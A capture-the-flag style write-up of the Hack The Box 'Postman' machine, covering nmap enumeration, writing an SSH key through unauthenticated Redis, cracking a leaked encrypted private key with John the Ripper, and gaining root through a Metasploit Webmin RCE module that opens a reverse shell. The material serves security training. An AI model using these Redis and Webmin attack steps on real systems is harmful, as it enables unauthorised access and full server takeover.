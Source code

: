 # Postman

## Postman

Postman was an easy linux box that required use of the redis service for unauthenticated shell and then we use another exploit on webmin for root.

> Skills involved in this box
>
> * enumeration
> * redis exploitation
> * priv esc

## USER

> Nmap

```bash
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 46:83:4f:f1:38:61:c0:1c:74:cb:b5:d1:4a:68:4d:77 (RSA)
|   256 2d:8d:27:d2:df:15:1a:31:53:05:fb:ff:f0:62:26:89 (ECDSA)
|_  256 ca:7c:82:aa:5a:d3:72:ca:8b:8a:38:3a:80:41:a0:45 (ED25519)
80/tcp    open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: The Cyber Geek's Personal Website
6379/tcp  open  redis   Redis key-value store 4.0.9
10000/tcp open  http    MiniServ 1.910 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We can see from our nmap that the ip is running port 6379 for redis, this is an instant alarm that we need to use that as redis is a rare occurance in htb which makes the path slighty more obvious.

We run a dirbuster but nothing interesting occured after looking at the output.

We head over to [http://postman.htb:10000](http://postman.htb:10000) to check whats there. It gives us a redirect to a login page for webmin. The version is `MiniServ/1.910`

There were a few exploits listed with searchsploit o exploit-db but none of them worked for the webadmin either not on this box or needed creds so at this stage wasnt possible.

> Exploiting redis using redis-cli

If you dont already have this installed you can install it with `sudo apt-get install redis-server`

i will show the exploitation steps below:

```bash
ssh-keygen on our box.
chmod 400 /home/kali/.ssh/id_rsa.pub
in redis:

kali@kali:~/boxes/postman$ redis-cli -h 10.10.10.160
10.10.10.160:6379> CONFIG SET dbfilename "authorized_keys"
OK
10.10.10.160:6379> CONFIG SET dir "/var/lib/redis/.ssh"
OK
10.10.10.160:6379> flushall
OK
10.10.10.160:6379> exit

on our box:

kali@kali:~/boxes/postman$ echo -e '\n\n' >> blob.txt
kali@kali:~/boxes/postman$ cat ~/.ssh/id_rsa.pub >> blob.txt
kali@kali:~/boxes/postman$ echo -e '\n\n' >> blob.txt

Last step:

kali@kali:~/boxes/postman$ cat blob.txt | redis-cli -h 10.10.10.160 -x set ssh

kali@kali:~/boxes/postman$ redis-cli -h 10.10.10.160 save
```

Then we simply ssh into the box as redis using our private key. `ssh -i /home/kali/.ssh/id_rsa redis@10.10.10.160`

Reading `/etc/passwd` reveals the user Matt:

```bash
Matt:x:1000:1000:,,,:/home/Matt:/bin/bash
redis:x:107:114::/var/lib/redis:/bin/bash
```

So we assume we have to priv esc to matt in some sort of way.

After enumerating for a while we find an interesting file in `/opt`.

```bash
redis@Postman:~$ cd /opt
redis@Postman:/opt$ ls -la
total 12
drwxr-xr-x  2 root root 4096 Sep 11  2019 .
drwxr-xr-x 22 root root 4096 Aug 25  2019 ..
-rwxr-xr-x  1 Matt Matt 1743 Aug 26  2019 id_rsa.bak
redis@Postman:/opt$ cat id_rsa.bak
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: DES-EDE3-CBC,73E9CEFBCCF5287C

JehA51I17rsCOOVqyWx+C8363IOBYXQ11Ddw/pr3L2A2NDtB7tvsXNyqKDghfQnX
cwGJJUD9kKJniJkJzrvF1WepvMNkj9ZItXQzYN8wbjlrku1bJq5xnJX9EUb5I7k2
7GsTwsMvKzXkkfEZQaXK/T50s3I4Cdcfbr1dXIyabXLLpZOiZEKvr4+KySjp4ou6
cdnCWhzkA/TwJpXG1WeOmMvtCZW1HCButYsNP6BDf78bQGmmlirqRmXfLB92JhT9
1u8JzHCJ1zZMG5vaUtvon0qgPx7xeIUO6LAFTozrN9MGWEqBEJ5zMVrrt3TGVkcv
EyvlWwks7R/gjxHyUwT+a5LCGGSjVD85LxYutgWxOUKbtWGBbU8yi7YsXlKCwwHP
UH7OfQz03VWy+K0aa8Qs+Eyw6X3wbWnue03ng/sLJnJ729zb3kuym8r+hU+9v6VY
Sj+QnjVTYjDfnT22jJBUHTV2yrKeAz6CXdFT+xIhxEAiv0m1ZkkyQkWpUiCzyuYK
t+MStwWtSt0VJ4U1Na2G3xGPjmrkmjwXvudKC0YN/OBoPPOTaBVD9i6fsoZ6pwnS
5Mi8BzrBhdO0wHaDcTYPc3B00CwqAV5MXmkAk2zKL0W2tdVYksKwxKCwGmWlpdke
P2JGlp9LWEerMfolbjTSOU5mDePfMQ3fwCO6MPBiqzrrFcPNJr7/McQECb5sf+O6
jKE3Jfn0UVE2QVdVK3oEL6DyaBf/W2d/3T7q10Ud7K+4Kd36gxMBf33Ea6+qx3Ge
SbJIhksw5TKhd505AiUH2Tn89qNGecVJEbjKeJ/vFZC5YIsQ+9sl89TmJHL74Y3i
l3YXDEsQjhZHxX5X/RU02D+AF07p3BSRjhD30cjj0uuWkKowpoo0Y0eblgmd7o2X
0VIWrskPK4I7IH5gbkrxVGb/9g/W2ua1C3Nncv3MNcf0nlI117BS/QwNtuTozG8p
S9k3li+rYr6f3ma/ULsUnKiZls8SpU+RsaosLGKZ6p2oIe8oRSmlOCsY0ICq7eRR
hkuzUuH9z/mBo2tQWh8qvToCSEjg8yNO9z8+LdoN1wQWMPaVwRBjIyxCPHFTJ3u+
Zxy0tIPwjCZvxUfYn/K4FVHavvA+b9lopnUCEAERpwIv8+tYofwGVpLVC0DrN58V
XTfB2X9sL1oB3hO4mJF0Z3yJ2KZEdYwHGuqNTFagN0gBcyNI2wsxZNzIK26vPrOD
b6Bc9UdiWCZqMKUx4aMTLhG5ROjgQGytWf/q7MGrO3cF25k1PEWNyZMqY4WYsZXi
WhQFHkFOINwVEOtHakZ/ToYaUQNtRT6pZyHgvjT0mTo0t3jUERsppj1pwbggCGmh
KTkmhK+MTaoy89Cg0Xw2J18Dm0o78p6UNrkSue1CsWjEfEIF3NAMEU2o+Ngq92Hm
npAFRetvwQ7xukk0rbb6mvF8gSqLQg7WpbZFytgS05TpPZPM0h8tRE8YRdJheWrQ
VcNyZH8OHYqES4g2UF62KpttqSwLiiF4utHq+/h5CQwsF+JRg88bnxh2z2BD6i5W
X+hK5HPpp6QnjZ8A5ERuUEGaZBEUvGJtPGHjZyLpkytMhTjaOrRNYw==
-----END RSA PRIVATE KEY-----
```

It seems to be an old ssh key, lets see if we can crack it using `ssh2john.py`. `/usr/share/john/ssh2john.py id_rsa > hash.txt`

```bash
kali@kali:~/boxes/postman$ sudo john -w=/home/kali/rockyou.txt hash.txt
[sudo] password for kali: 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 1 for all loaded hashes
Cost 2 (iteration count) is 2 for all loaded hashes
Will run 2 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
computer2008     (id_rsa)
```

And it worked! We get the password `computer2008` as the password for Matt.

We try reloging in with ssh as matt but it doesnt work. We find if we just use `su Matt` and input the password it works completely fine. We then read our user flag.

```bash
edis@Postman:/opt$ su matt
No passwd entry for user 'matt'
redis@Postman:/opt$ su MAtt
No passwd entry for user 'MAtt'
redis@Postman:/opt$ su Matt
Password: 
Matt@Postman:/opt$ cd /home/Matt
Matt@Postman:~$ ls
user.txt
Matt@Postman:~$ cat user.txt
517ad0ec2458ca97af8d93aac08a2f3c
```

## ROOT

It turns out theese credentials work on the site for webmin so we can use the metasploit module that we saw earlier as we now have the needed creds to do so.

```bash
msf5 > use exploit/linux/http/webmin_packageup_rce
msf5 exploit(linux/http/webmin_packageup_rce) > show options

Module options (exploit/linux/http/webmin_packageup_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD                    yes       Webmin Password
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      10000            yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       Base path for Webmin application
   USERNAME                    yes       Webmin Username
   VHOST                       no        HTTP server virtual host


Payload options (cmd/unix/reverse_perl):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Webmin <= 1.910


msf5 exploit(linux/http/webmin_packageup_rce) > set PASSWORD computer2008 
PASSWORD => computer2008
msf5 exploit(linux/http/webmin_packageup_rce) > set USERNAME Matt
USERNAME => Matt
msf5 exploit(linux/http/webmin_packageup_rce) > set rhosts 10.10.10.160
rhosts => 10.10.10.160
msf5 exploit(linux/http/webmin_packageup_rce) > set LHOST 10.10.xx.xx
LHOST => 10.10.14.5
msf5 exploit(linux/http/webmin_packageup_rce) > set SSL true
[!] Changing the SSL option's value may require changing RPORT!
SSL => true
msf5 exploit(linux/http/webmin_packageup_rce) > run

[*] Started reverse TCP handler on 10.10.xx.xx:4444 
[+] Session cookie: xxxxxxxxxxxxxxxxxxxxxxxxxxxxx
[*] Attempting to execute the payload...
[*] Command shell session 1 opened (10.10.xx.xx:4444 -> 10.10.10.160:53994) at 2020-06-13 11:34:22 -0400
id

uid=0(root) gid=0(root) groups=0(root)
cat /root/root.txt
a257741c5bed8be7778c6ed95686ddce
```

Thanks for reading hope you enjoyed.

